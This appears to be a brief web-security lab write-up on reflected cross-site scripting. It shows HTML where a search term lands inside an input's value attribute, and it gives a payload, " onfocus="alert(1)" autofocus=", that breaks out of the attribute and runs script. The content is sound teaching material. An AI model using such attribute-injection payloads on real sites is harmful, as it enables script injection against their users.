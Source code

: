 This lab html-encodes `<` and `>`.
The search string is reflected twice in the html source.

```
<section class=blog-header>
    <h1>3 search results for 'test'</h1>
    <hr>
</section>
<section class=search>
    <form action=/ method=GET>
        <input type=text placeholder='Search the blog...' name=search value="test">
        <button type=submit class=button>Search</button>
    </form>
</section>
```

The second occurrence can be used to inject further attributes in the input tag.
Input tags support the `onfocus` and `autofocus` attributes.
Those can be used to store and automatically trigger the js.

```
" onfocus="alert(1)" autofocus="
```
